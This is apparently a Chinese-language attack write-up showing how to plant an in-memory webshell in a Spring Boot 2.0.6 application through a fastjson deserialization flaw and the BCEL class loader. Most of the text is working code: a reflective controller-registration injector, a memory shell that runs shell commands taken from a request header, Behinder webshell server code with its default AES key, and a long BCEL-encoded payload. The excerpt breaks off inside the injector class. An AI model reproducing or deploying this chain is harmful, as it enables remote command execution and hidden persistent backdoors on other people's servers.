



# 1.环境说明

在某个不出网环境中，spring boot jar包启的环境，存在fastjson漏洞，可通过bcel类来执行命令并回显。

但是由于为不出网环境需要开正向代理出来，所以需要打入内存马。

因为目标的 spring boot 版本 为2.0.6.RELEASE，所以我本地测试也是用的这个版本。不同的springboot版本在查找mappingHandlerMapping这个class上可能不一样

# 2.spring boot 内存马

通过网络查找内存马代码如下

```java
@RequestMapping("/3")
    public String servlet3() {

        @RestController
        class InjectToController {
            public InjectToController() {

            }

            public void test() throws Exception {
                // 获取request和response对象
                HttpServletRequest request = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getRequest();
                HttpServletResponse response = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getResponse();
                // 获取cmd参数并执行命令
                //System.out.println(request.getParameter("cmd"));
                java.lang.Runtime.getRuntime().exec("open -a Calculator");
                // response.getWriter().write("a");
            }
        }
        try {
            // 1. 利用spring内部方法获取context
            WebApplicationContext context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
            // 2. 从context中获得 RequestMappingHandlerMapping 的实例
            RequestMappingHandlerMapping mappingHandlerMapping = context.getBean(RequestMappingHandlerMapping.class);
            // 3. 通过反射获得自定义 controller 中的 Method 对象
            Method method = InjectToController.class.getMethod("test");
            // 4. 定义访问 controller 的 URL 地址
            PatternsRequestCondition url = new PatternsRequestCondition("/cmd");
            // 5. 定义允许访问 controller 的 HTTP 方法（GET/POST）
            RequestMethodsRequestCondition ms = new RequestMethodsRequestCondition();
            // 6. 在内存中动态注册 controller
            RequestMappingInfo info = new RequestMappingInfo(url, ms, null, null, null, null, null);

            InjectToController injectToController = new InjectToController();
            mappingHandlerMapping.registerMapping(info, injectToController, method);
            return "inject ok...";
        } catch (Exception ex) {
            return "inject fail...";
        }
    }
```

访问该路由，注入内存马


再访问cmd,可成功触发代码


但是在becl的classloader中因为加载器的不同是无法直接import spring相关的一系列包的，如果想要使用spring相关的class，必须通过`Thread.currentThread().getContextClassLoader().loadClass("org.sping....")`这种方式来load。

然后因为没有代码上下文环境，所以我们也不能通过`context.getBean`的方法来获取mappingHandlerMapping这个class，spring的 servlet就是存放在该class中的。

所以我们直接用过java_object_serach来在Thread.currentThread()中搜索该class的路径，结果如下


我们通过反射来拿到该变量

```java
ClassLoader springClassload = Thread.currentThread().getContextClassLoader();

            Field resourcesField = Thread.currentThread().getContextClassLoader().getClass().getSuperclass().getSuperclass().getDeclaredField("resources");
            resourcesField.setAccessible(true);
            Object context = resourcesField.get(Thread.currentThread().getContextClassLoader());

            Field contextField = context.getClass().getDeclaredField("context");
            contextField.setAccessible(true);
            Object context2 = contextField.get(context);
            Field context2Field = context2.getClass().getSuperclass().getDeclaredField("context");
            context2Field.setAccessible(true);
            Object context3 = context2Field.get(context2);

            Field attributesField = context3.getClass().getDeclaredField("attributes");
            attributesField.setAccessible(true);
            ConcurrentHashMap attributesMap = (ConcurrentHashMap) attributesField.get(context3);
            Object springRoot = attributesMap.get("org.springframework.web.context.WebApplicationContext.ROOT");

            Field applicationEventMulticasterField = springRoot.getClass().getSuperclass().getSuperclass().getSuperclass().getSuperclass().getDeclaredField("applicationEventMulticaster");
            applicationEventMulticasterField.setAccessible(true);
            Object applicationEventMulticaster = applicationEventMulticasterField.get(springRoot);

            Field retrievalMutexField = applicationEventMulticaster.getClass().getSuperclass().getDeclaredField("retrievalMutex");
            retrievalMutexField.setAccessible(true);
            ConcurrentHashMap retrievalMutex = (ConcurrentHashMap) retrievalMutexField.get(applicationEventMulticaster);


            Constructor patternsRequestCondition = Thread.currentThread().getContextClassLoader().loadClass("org.springframework.web.servlet.mvc.condition.PatternsRequestCondition").getConstructor(String[].class);
            // PatternsRequestCondition url = new PatternsRequestCondition("/cmd");
            // String[] urls = {"/cmd"};
            Object url = patternsRequestCondition.newInstance(new Object[]{new String[]{"/logo.css"}});


            // 5. 定义允许访问 controller 的 HTTP 方法（GET/POST）
            // RequestMethodsRequestCondition ms = new RequestMethodsRequestCondition();
            Constructor msConstructor = springClassload.loadClass("org.springframework.web.servlet.mvc.condition.RequestMethodsRequestCondition").getConstructor(Array.newInstance(springClassload.loadClass("org.springframework.web.bind.annotation.RequestMethod"), 1).getClass());
            Object ms = msConstructor.newInstance(new Object[]{Array.newInstance(springClassload.loadClass("org.springframework.web.bind.annotation.RequestMethod"), 0)});

            // RequestMappingInfo info = new RequestMappingInfo((PatternsRequestCondition) url, ms, null, null, null, null, null);
            Constructor requestMappingInfoConstructor = springClassload.loadClass("org.springframework.web.servlet.mvc.method.RequestMappingInfo").getConstructor(springClassload.loadClass("org.springframework.web.servlet.mvc.condition.PatternsRequestCondition"), springClassload.loadClass("org.springframework.web.servlet.mvc.condition.RequestMethodsRequestCondition"), springClassload.loadClass("org.springframework.web.servlet.mvc.condition.ParamsRequestCondition"), springClassload.loadClass("org.springframework.web.servlet.mvc.condition.HeadersRequestCondition"), springClassload.loadClass("org.springframework.web.servlet.mvc.condition.ConsumesRequestCondition"), springClassload.loadClass("org.springframework.web.servlet.mvc.condition.ProducesRequestCondition"), springClassload.loadClass("org.springframework.web.servlet.mvc.condition.RequestCondition"));
Object info = requestMappingInfoConstructor.newInstance(url, ms, null, null, null, null, null);
```

然后在demo代码中，是直接通过定义一个内部类然后注入到requestMappingHandlerMapping中，但是在bcel环境中，因为加载器的不同，我们无法直接使用内部类，会提示找不到class，所以我们通过反射bcelclass然后load一个class进来。

```java
Object bcelclassLoader = springClassload.loadClass("com.sun.org.apache.bcel.internal.util.ClassLoader").newInstance();
Method loadClassmethod = bcelclassLoader.getClass().getMethod("loadClass",String.class);
Class ob1 = (Class) loadClassmethod.invoke(bcelclassLoader,"$$BCEL$$.....");
Method method2 = ob1.getMethod("test");
Object injectToController = ob1.newInstance();
```

然后再进行注入

```java
 Method registerMethod = retrievalMutex.get("requestMappingHandlerMapping").getClass().getSuperclass().getSuperclass().getDeclaredMethod("registerMapping", Object.class, Object.class, Method.class);
registerMethod.invoke(retrievalMutex.get("requestMappingHandlerMapping"), info, injectToController, method2);
```

通过这些代码，可以实现将任意方法注册到一个servlet中，以实现命令执行为例,class定义如下

```java
package com.example.demo.fastjson.vul;

import java.lang.reflect.Field;
import java.util.List;
import java.util.Scanner;

public class InjectToController {
    public InjectToController() {

    }

    public void test() throws Exception {
        try {
            boolean var0 = false;
            Thread[] var1 = (Thread[])((Thread[])getFV(Thread.currentThread().getThreadGroup(), "threads"));

            for(int var2 = 0; var2 < var1.length; ++var2) {
                Thread var3 = var1[var2];
                if (var3 != null) {
                    String var4 = var3.getName();
                    if (!var4.contains("exec") && var4.contains("http")) {
                        Object var5 = getFV(var3, "target");
                        if (var5 instanceof Runnable) {
                            try {
                                var5 = getFV(getFV(getFV(var5, "this$0"), "handler"), "global");
                            } catch (Exception var11) {
                                continue;
                            }

                            List var6 = (List)getFV(var5, "processors");

                            for(int var7 = 0; var7 < var6.size(); ++var7) {
                                Object var8 = var6.get(var7);
                                var5 = getFV(var8, "req");
                                Object var9 = var5.getClass().getMethod("getResponse").invoke(var5);
                                var4 = (String)var5.getClass().getMethod("getHeader", String.class).invoke(var5, new String("Testecho"));
                                if (var4 != null && !var4.isEmpty()) {
                                    var9.getClass().getMethod("setStatus", Integer.TYPE).invoke(var9, new Integer(200));
                                    var9.getClass().getMethod("addHeader", String.class, String.class).invoke(var9, new String("Testecho"), var4);
                                    var0 = true;
                                }

                                var4 = (String)var5.getClass().getMethod("getHeader", String.class).invoke(var5, new String("Testcmd"));
                                if (var4 != null && !var4.isEmpty()) {
                                    var9.getClass().getMethod("setStatus", Integer.TYPE).invoke(var9, new Integer(200));
                                    String[] var10 = System.getProperty("os.name").toLowerCase().contains("window") ? new String[]{"cmd.exe", "/c", var4} : new String[]{"/bin/sh", "-c", var4};
                                    writeBody(var9, (new Scanner((new ProcessBuilder(var10)).start().getInputStream())).useDelimiter("\\A").next().getBytes());
                                    var0 = true;
                                }

                                if ((var4 == null || var4.isEmpty()) && var0) {
                                    writeBody(var9, System.getProperties().toString().getBytes());
                                }

                                if (var0) {
                                    break;
                                }
                            }

                            if (var0) {
                                break;
                            }
                        }
                    }
                }
            }
        } catch (Exception var12) {
        }
    }


    private static void writeBody(Object var0, byte[] var1) throws Exception {
        Object var2;
        Class var3;
        try {
            var3 = Class.forName("org.apache.tomcat.util.buf.ByteChunk");
            var2 = var3.newInstance();
            var3.getDeclaredMethod("setBytes", byte[].class, Integer.TYPE, Integer.TYPE).invoke(var2, var1, new Object[]{new Integer(0), new Integer(var1.length)});
            var0.getClass().getMethod("doWrite", var3).invoke(var0, var2);
        } catch (ClassNotFoundException var5) {
            var3 = Class.forName("java.nio.ByteBuffer");
            var2 = var3.getDeclaredMethod("wrap", byte[].class).invoke(var3, var1);
            var0.getClass().getMethod("doWrite", var3).invoke(var0, var2);
        } catch (NoSuchMethodException var6) {
            var3 = Class.forName("java.nio.ByteBuffer");
            var2 = var3.getDeclaredMethod("wrap", byte[].class).invoke(var3, var1);
            var0.getClass().getMethod("doWrite", var3).invoke(var0, var2);
        }

    }

    private static Object getFV(Object var0, String var1) throws Exception {
        Field var2 = null;
        Class var3 = var0.getClass();

        while (var3 != Object.class) {
            try {
                var2 = var3.getDeclaredField(var1);
                break;
            } catch (NoSuchFieldException var5) {
                var3 = var3.getSuperclass();
            }
        }

        if (var2 == null) {
            throw new NoSuchFieldException(var1);
        } else {
            var2.setAccessible(true);
            return var2.get(var0);
        }
    }
}

```

通过如下代码可将该class转换为bcel码

```java
@RequestMapping("/5")
    public void servlet5() throws ClassNotFoundException, InstantiationException, IllegalAccessException, IOException {
        JavaClass cls = Repository.lookupClass(InjectToController.class);
        String code = Utility.encode(cls.getBytes(), true);
        System.out.println("$$BCEL$$" + code);
    }
```

然后替换上文中`Class ob1 = (Class) loadClassmethod.invoke(bcelclassLoader,"$$BCEL$$.....");`这里的bcel代码

然后再将内存马注入代码转换为bcel码,然后通过fastjson进行执行，我这里通过直接load来模拟漏洞环境


执行以后spring boot控制台提示有新的map


然后访问/logo.css试试,成功命令执行内存马注入


# 3.打入冰蝎马

冰蝎服务端代码示例如下:

```java
package com.example.spring_demo;

import javax.crypto.Cipher;
import javax.crypto.NoSuchPaddingException;
import javax.crypto.spec.SecretKeySpec;
import java.io.BufferedReader;
import java.lang.reflect.Method;
import java.security.InvalidKeyException;
import java.security.NoSuchAlgorithmException;
import java.util.HashMap;
import java.util.Map;

public class InjectToController extends ClassLoader {
    public InjectToController() {

    }

    InjectToController(ClassLoader c) {
        super(c);
    }

    public Class g(byte[] b) {
        return super.defineClass(b, 0, b.length);
    }


    public void test() throws Exception {
        ClassLoader springLoader = Thread.currentThread().getContextClassLoader();
        Method currentRequestAttributesMethod = springLoader.loadClass("org.springframework.web.context.request.RequestContextHolder").getMethod("currentRequestAttributes");
        Object reqFace = currentRequestAttributesMethod.invoke(springLoader.loadClass("org.springframework.web.context.request.RequestContextHolder"));

        Method getRequestMethod = reqFace.getClass().getMethod("getRequest");
        Object request = getRequestMethod.invoke(reqFace);
        Method getResponseMethod = reqFace.getClass().getMethod("getResponse");
        Object response = getResponseMethod.invoke(reqFace);

        String getMethod = (String) request.getClass().getMethod("getMethod").invoke(request);
        String payload;


        if (getMethod.equals("POST")) {
            BufferedReader b = (BufferedReader) request.getClass().getMethod("getReader").invoke(request);
            payload = b.readLine();
        } else {
            payload = (String) request.getClass().getMethod("getHeader", String.class).invoke(request, "p");
            if (payload == null || payload.equals("")) {
                Object writer = response.getClass().getMethod("getWriter").invoke(response);
                writer.getClass().getMethod("println", String.class).invoke(writer, "ok");
                writer.getClass().getMethod("flush").invoke(writer);
                writer.getClass().getMethod("close").invoke(writer);
                return;
            }
        }

        String k = "e45e329feb5d925b";/*该密钥为连接密码32位md5值的前16位，默认连接密码rebeyond*/
        // req.getSession().putValue("u", k);
        Object session = request.getClass().getMethod("getSession").invoke(request);
        session.getClass().getMethod("putValue", String.class, Object.class).invoke(session, "u", k);

        Cipher c = null;
        try {
            c = Cipher.getInstance("AES");
        } catch (NoSuchAlgorithmException e) {
            e.printStackTrace();
        } catch (NoSuchPaddingException e) {
            e.printStackTrace();
        }
        try {
            c.init(2, new SecretKeySpec(k.getBytes(), "AES"));
        } catch (InvalidKeyException e) {
            e.printStackTrace();
        }
        try {
            Map<String, Object> pageContext = new HashMap<String, Object>();
            pageContext.put("session", session);
            pageContext.put("request", request);
            pageContext.put("response", response);

            this.g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(payload))).newInstance().equals(pageContext);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

转为bcel code为

```
$$BCEL$$$l$8b$I$A$A$A$A$A$A$A$8dW$eb$7f$iU$Z$7e$cefwgvv$b6$97$ed$r$jl$L$r$b4$e4$d2fK$9b$AYB$da$q$q$q4iC6$s$96$a08$d9$3d$9bl$b3$d9$d9$ce$ce6$897$U$_$a0$a8$uZ$V$adE$U$u$V$c4$d6$cb$a6P$a9$a8$V$uj$bcU$fb$c9O$fc$B$7e$c3$P$f8$D$df33$bb$c9f$b7$d8$fc6g$cey$df$f7$3c$e7$bd$9f$997$df$7d$f9$C$80$W$fcS$c1$3e$cc$89a$5e$M$lS$f0q$7cB$M$9f$94$f1$vAyP$c6$a7$r$7cFA$A$PI$f8$ac$82$cf$e1$f3$K$82$f8$82$8c$87e$3c$o$p$n$e1$8b2$be$a4$60$z$k$95$f1e$J_Q$b0$B_$95$f1$98$8c$af$c9$f8$ba$8c$c7e$7cC$c67e$i$97$f1$z$Z$df$96$f1$j$ZO$c8$f8$ae$8c$ef$v8$81$efK8$a9$60$3b$9e$94$f0$D$F7$8b$e7S$C$ee$87$K$g$f0$p$n$f1$b4$84g$U$ec$S$9cg$VD0$t$p$Z$c4$v$3c$tC$97$R$97pZA$ab0$a3$V$3f$W$f2$cf$x$e8$c0$LB$e7$9f$I$5d$l$95$f0$a2$82v$b1$fd$a7$S$ce0$f8$dbS$99$94$d5$c1PS$df0$ca$e0$ed6$S$9ca$f5$40$w$c3$P$e6g$s$b89$a2O$a4$89$S$k0$e2zzT7Sb$ed$S$bd$d6T$w$c7$b0s$mn$ccD$f8$9c$3e$93M$f3H$$k$a62$93$P$q$f8$8c$R$e9$cf$i$e1qk$c4$e862$96i$a4$d3$dc$bc$83$e1$ba$fa$81$p$fa1$3d$92$d63$93$91$ee$b4$9e$cb$N$Yz$82XB$B$Wg$a8$bd$K$9fa$cd$m$b7$a6$8c$c4$90n$ea3$dc$e2$s$j$ce$s$Z6$d4$8fw5$ac$dcD$e2l$82$c13$de$r$U$e59$8ba$93$p$932$o$5d$f9d$92$9b$3c1$cc$5dd$v$ab$cf$a7$e9$Ya$e9$SP$cc$S$b6$Q$db$3fk$a6$e8$bcr$ee$a1$Ja$9d8$87$7c$e1$g$95$e3$f1$3c$89$ceG$O$g$b1$7c$7c$aa3$3di$d0rj$a6g$$$ce$b3V$ca$c8$90$f8v$5bt$$$S7$e7$b3$96$e1J$O$e9$89$E$9d$b5$5c$aen$Fd$7f$e6$98$9eN$r$O$f0$f9$e5R$c1$ac$3e$c9$85$83$f9$9c$r$og$ef$c9$5b$a9tdP$cf$S$7f$c32$8d$97$efS$9d$409$bee$d8J$87$98$3cc$N$f3$a3yrV$a7E$a6O$e4$c9o$8e$cb$vl$cbpL$9eL$93$e9$R$87$t$dcg$f2$a3$bdz$9c$fc$b0f$92$X1$8a$3b$F3o$H$60$ad$cd$cce$8dL$8e$X$b9$b2$e9$S$Y$C$c4$$$92$d94m$cc$f1$5c$8e$b4$z$gQrYw$w$3be$87mcyZ$ceg$8b$a9$d9Z$ee$87$f6$ca$a0V$G$b2$83$AC1K$8fO$d3$O$h$c7$a9$S$Jg$a9$de$a9$b8$r$fc$8c$K$94j$93$8a$90$K$89A$v9$942Q$89$Zy3$ce$7bS$e2$fc$da$ca$d4o$W$H$aa$d8$8fN1$dc$ad$e2$e7$f8$85$84_$aa$u$60A$c59$bc$c4$d0n$98$93$cdN$5c$92$o$c5g$Ns$bay$96O4$c7$9d$f86$bb$9elv$3d$ec$86$bd$cfHS$MU$bc$8c$f3$94$e4W$L$q$r$c7$8a$SQ$91$c0$af$ud$x$3dA$G$abx$F$XT$fc$g$af$92aK$n$a5t$5b$W$c2$b2$ad$8e$5b$a9$d6$86$O$c5FT$fc$G$bfu$C$ea$94$Y$85$aaz$ed$a9$f8$j$$$3a$92$7d$ae$q$cb2$c0$n$8d$b9e$t$J$9fXi$ca$E$8fA$89$e1K$a6$f3$b9$vz$c6$d3$86$ad$Goi$e5$7b$f7$b4$r$f9Dk$a2mO$eb$84$a3t$ac$98$3er6o$8d$ea$e9$3c$89$b2$3c$f5$ba$ce$9e$Y$c5R$c5$ef$f1$g$c3$8ek$x$5c$V$af$a3$93$8a$f2$gj$97$e1$fa2$a9$5c$96$c7$p1$k7$b9E$c5$h$a3$95$8a7pI$a4$c1$9b$w$fe$80$3f2l$fb$bf$a5N$d5$b3$94$d2$7dzn$8a$92T$c2$9fT$y$e2$cf$e4$dd$5c$3e$T$99I$e5$e2$91$ae$ceX$cf$ad$zw$f1$b8a$7b$f7$_$f8$ab$8a$bf$e1$ef$w$O$60$40$c5e$fc$83a$5d$95$8e$c0$d0x$ed$5d$9c$K$b2j$8b$a6$ec$bbZ$93pO$5dQ$c2$94O$J$9e$a4$cb$c6$G$a1$b2$a1N$de$df_$ad$97$_$cb$b4$91$v$93$8bN$jr3$bd$b8$5e_$bf$7c$a3C$V$N$902$c1$z$942U$b5$fa$8asJ$XM$40$dc$F$aeN$db$eb$x$9bG5$N$f7W$91$h$af$90kx$bf6$eaOe$8e$Z$d3$94$a5m$f5$95$edi$bc$92$d4P$ed6$92$85$bd$8e$ea$eb$wM$U$a7P$z$eb$e9$9c$b87$ab$40$deg$b7d$3d$n$5e$BV$fa$b4t$l$8a$$$d0$9f$c9YzF$f4$fc$86$abz$a8$b2c$af$b6$x$d9$ee$b2$p$a6$7dc$I$7d$bb$e6$ed$G$e5$ado$Q$d7$b5$c8$82$w$88$e2$fdD$bc$ad$I$81$fe$Vw$pU$8a$z$Q$wk$fbT$eaT$f9$M$b7W1$f4$g$bd$a9$s$ecJr$9a$W$d5Y5S$85$ceR$c2$e8Me$f44$b9W$bc$8d$IR0$c3g$97$9cT$eeI$X$l$db$e8$f5l$l$c4$9f$97Z$k$dd$N4v$d1j$_$3d$a9$L$c2$d7$b8$Av$96$s$kt$d3$a8$d0$TXE$c2kp$X$cdTG$I$3d$e8$b5A$e8$5e$n$J$B$d0AO$n$ebolZ$80g$r$c2$3a$da$b3$deF$d8$e8H$95$Q$fc$e8C$3f$a1$de$pp$Z$zD$x$a6$d6$e1$c2$deIG$8b$N$81$c6$a6$9a$a6$L$L$a89SB$f6$db$ba$d4$$C$N$94P$D$Y$c4$c1$r$d4A$h$f5$QYk$a3z9m$5eE87$9d$83$b7$A$df$40S$d8_$80$U$96k$5eA$a0$Aep$a7C$a0e$b0$A$f5$e0$ae$CB$e1U$$3$ea$d5$bc$bb$5cN$d4g$b3V$XY$7e$cd_bI$9aO$f0$d6$b8$3c$cd$e72$5e$c5$da$a8$ac$c9$e1p$B$eb$9e$40$83$p$b5$beRjCT$d1$94$C6F$D$a7$f0$b4$pU$eb$r$a9$c35$e1$b51$5b$94VAZm$8a$b9$a8$B$z$f0$gBZ$m$ac$d9$d0$86$s$89M$d7$V$a1$8b$e68$b8$a1$f0$H$ca$d0$U$Xm$b3$40$hs$q$b6$U$b7$w$eeV$97$be$b5$82$7e6$7c$3d$c1$daJ$de$b0$d2$94hP$L$K$c66_$f1$bc$c3$dep$d0$3e4$e8s$O$bd$91H$9ab$9f$cc$a2j$b8$ee$in$8a$aa$a7$b0$3e$g$d2B$F$ec8E$ae$b5g$f5$9a$ea$3b$8f$86$c3B$8d$c6p$dd$C$9a$K$d8Y$e26$9fG$e4$f0$Cv$8bU$f8$W$z$f8$S$f6$d4$60$8c$e6$7b5_i$de$a2I$ce$bcQS$cf$a3$95$e4o$d5H$dd$db$K$b8$bd$80$b6$C$a2$C$e9$8e$b1$S$e8$9dg$e1e$c7$d9$J$f6$q$b6$db$cf$d3$b8$99$9da$X$d9$eb$d8$c5$W$3d$9ag3$7d$dex$ed$84$7c$RM4n$86$84$z$94$96$5b$b1$D7$d0g$d16$ca$ba$h1$84$3a$dcO_Zs$f4a$f5$Q$gq$92d$9f$c1N$3cG$dfV$8bh$c6$bf$e8$db$eam$ecf$9bp$L$db$8d$3d$ac$P$7bY$3fnc$83hcID$d9$e3hg$c7$d1$c1N$a0$9b4$d9$c7$9e$c2$7e$f6$y$cdO$d3$3b$c2$f3$e8bg$d0$c3$$$a2$8f$b4$eae$97p7$5b$c4$3d$ec$K$O$b0$b70$c0$fe$8dA$f6$O$Oy4$M$93$b6C$9e$ad$b8$d7S$87$98$5d8$97$e9$8b$f1$qi$3cH$g$w$a4Q$N$ee$c50$95$cf$db$c4$8fa$E$K$9d$e4$c3$H1$8a$Q$9d$pfc4$bbd$cf$3eD$b3$xTO$87q$lB$84$wh$e3$I$89$bar$LQ$f2l$n$abEy$d7zB$f80$3eB$f5$b7$83$bd$8b$H$I$b9$G$ad$a4$d9G$89$e6$r$h$de$82N4$l$86$d8eL$Q$cd$8f$fb$d9$h$88$TM$c2$i$7b$81$5e$i$87$nc$91$8d$3a$fa$91_$ae$80$d3L$n$ef$5c$40$92$e4$82$e4$9f$c7$a8$7fLR$93$9arZ$95$ab$5d$8at$3aB$U$D$ca$7b$e4$f0$80$84i$Ji$J3$S2$e5$a3$B$fc$X$z$f4$7c$H$d3$ef$915$a1$f7$R$z$feh$9e$F$93p$b4_$82$e9$l$95$90$f3$ff$H$83$S$y$3f$f2n$9bm$a7$ffcv$df$9a$fd$l$a1$ef$f7$b6$ff$P$A$A
```

对应 注入代码为

```java
package com.example.spring_demo;

import java.lang.reflect.*;
import java.util.concurrent.ConcurrentHashMap;

public class LoadInjectToController {
    static {
        try {
            ClassLoader springClassload = Thread.currentThread().getContextClassLoader();

            Field resourcesField = Thread.currentThread().getContextClassLoader().getClass().getSuperclass().getSuperclass().getDeclaredField("resources");
            resourcesField.setAccessible(true);
            Object context = resourcesField.get(Thread.currentThread().getContextClassLoader());

            Field contextField = context.getClass().getDeclaredField("context");
            contextField.setAccessible(true);
            Object context2 = contextField.get(context);
            Field context2Field = context2.getClass().getSuperclass().getDeclaredField("context");
            context2Field.setAccessible(true);
            Object context3 = context2Field.get(context2);

            Field attributesField = context3.getClass().getDeclaredField("attributes");
            attributesField.setAccessible(true);
            ConcurrentHashMap attributesMap = (ConcurrentHashMap) attributesField.get(context3);
            Object springRoot = attributesMap.get("org.springframework.web.context.WebApplicationContext.ROOT");

            Field applicationEventMulticasterField = springRoot.getClass().getSuperclass().getSuperclass().getSuperclass().getSuperclass().getDeclaredField("applicationEventMulticaster");
            applicationEventMulticasterField.setAccessible(true);
            Object applicationEventMulticaster = applicationEventMulticasterField.get(springRoot);

            Field retrievalMutexField = applicationEventMulticaster.getClass().getSuperclass().getDeclaredField("retrievalMutex");
            retrievalMutexField.setAccessible(true);
            ConcurrentHashMap retrievalMutex = (ConcurrentHashMap) retrievalMutexField.get(applicationEventMulticaster);


            Constructor patternsRequestCondition = Thread.currentThread().getContextClassLoader().loadClass("org.springframework.web.servlet.mvc.condition.PatternsRequestCondition").getConstructor(String[].class);
            // PatternsRequestCondition url = new PatternsRequestCondition("/cmd");
            // String[] urls = {"/cmd"};
            Object url = patternsRequestCondition.newInstance(new Object[]{new String[]{"/logo.css"}});


            // 5. 定义允许访问 controller 的 HTTP 方法（GET/POST）
            // RequestMethodsRequestCondition ms = new RequestMethodsRequestCondition();
            Constructor msConstructor = springClassload.loadClass("org.springframework.web.servlet.mvc.condition.RequestMethodsRequestCondition").getConstructor(Array.newInstance(springClassload.loadClass("org.springframework.web.bind.annotation.RequestMethod"), 1).getClass());
            Object ms = msConstructor.newInstance(new Object[]{Array.newInstance(springClassload.loadClass("org.springframework.web.bind.annotation.RequestMethod"), 0)});

            // RequestMappingInfo info = new RequestMappingInfo((PatternsRequestCondition) url, ms, null, null, null, null, null);
            Constructor requestMappingInfoConstructor = springClassload.loadClass("org.springframework.web.servlet.mvc.method.RequestMappingInfo").getConstructor(springClassload.loadClass("org.springframework.web.servlet.mvc.condition.PatternsRequestCondition"), springClassload.loadClass("org.springframework.web.servlet.mvc.condition.RequestMethodsRequestCondition"), springClassload.loadClass("org.springframework.web.servlet.mvc.condition.ParamsRequestCondition"), springClassload.loadClass("org.springframework.web.servlet.mvc.condition.HeadersRequestCondition"), springClassload.loadClass("org.springframework.web.servlet.mvc.condition.ConsumesRequestCondition"), springClassload.loadClass("org.springframework.web.servlet.mvc.condition.ProducesRequestCondition"), springClassload.loadClass("org.springframework.web.servlet.mvc.condition.RequestCondition"));
            Object info = requestMappingInfoConstructor.newInstance(url, ms, null, null, null, null, null);

            Object bcelclassLoader = springClassload.loadClass("com.sun.org.apache.bcel.internal.util.ClassLoader").newInstance();
            Method loadClassmethod = bcelclassLoader.getClass().getMethod("loadClass", String.class);
